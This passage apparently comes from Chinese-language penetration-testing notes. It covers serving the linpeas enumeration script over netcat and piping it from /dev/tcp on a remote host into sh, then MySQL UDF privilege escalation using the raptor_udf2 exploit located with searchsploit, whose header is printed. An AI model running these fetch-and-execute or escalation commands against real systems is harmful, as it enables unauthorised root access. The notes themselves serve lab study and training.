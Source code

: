 kali 查看 结果

```bash
less -r linpeas.txt 
```

5、 curl 不能用时

kali 把 linpeas 用 nc 传到 88 端口里

```bash
sudo nc -lvnp 88 < linpeas.sh
```

ubuntu 远程执行执行

```bash
cat < /dev/tcp/192.168.0.103/88 | sh
```

# MySQL的UDF提权

## 原理

mysql  用户自定义函数的提权，udf中自定义一些以高权限执行系统命令的函数，再将该函数导入到 mysql 的数据库中，通过 mysql 数据库以高权限执行系统命令获得提权。实际上就是以 mysql 能够执行系统命令的方式，在mysql中修改，以root方式执行

## 操作

```
searchsploit mysql udf
locate linux/local/1518.c
```

```bash
cat /usr/share/exploitdb/exploits/linux/local/1518.c

/*
 * $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $
 *
 * raptor_udf2.c - dynamic library for do_system() MySQL UDF
 * Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>
 *
 * This is an helper dynamic library for local privilege escalation through
 * MySQL run with root privileges (very bad idea!), slightly modified to work
 * with newer versions of the open-source database. Tested on MySQL 4.1.14.
 *
 * See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c
 *
 * Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes
 * for the security vulnerabilities in the handling of User Defined Functions
 * (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further
 * details, please refer to:
 *
 * http://dev.mysql.com/doc/refman/5.0/en/udf-security.html
 * http://www.wisec.it/vulns.php?page=4
 * http://www.wisec.it/vulns.php?page=5
 * http://www.wisec.it/vulns.php?page=6
 *
 * "UDFs should have at least one symbol defined in addition to the xxx symbol
 * that corresponds to the main xxx() function. These auxiliary symbols
 * correspond to the xxx_init(), xxx_deinit(), xxx_reset(), xxx_clear(), and
 * xxx_add() functions". -- User Defined Functions Security Precautions
 *
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
```